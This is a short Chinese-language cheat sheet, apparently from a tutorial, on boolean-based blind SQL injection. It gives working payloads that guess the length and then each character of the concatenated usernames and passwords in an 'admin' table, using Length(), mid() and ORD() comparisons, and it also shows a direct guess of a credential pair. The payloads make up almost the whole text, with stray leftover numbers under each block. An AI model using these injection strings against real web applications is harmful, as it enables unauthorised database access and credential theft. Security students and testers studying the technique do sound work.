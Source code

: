 

##### **猜解内容长度**



```
假如已经知道字段名为  id   username password
'or (select Length(concat(username,"---",password)) from admin limit 0,1) = 16  --+
12
```



##### **猜解内容**

```
'or mid((select concat(username,"-----",password) from admin limit 0,1),1,1) = 'a' --+
或者
'or ORD(mid((select concat(username,"-----",password) from admin limit 0,1),1,1)) > 100 --+    ASCII码猜解
123
```



##### **也可以直接猜测内容**	

```
'or (Select concat(username,"-----",password) from admin limit 0,1 ) = 'admin-----123456'   --+
1
```

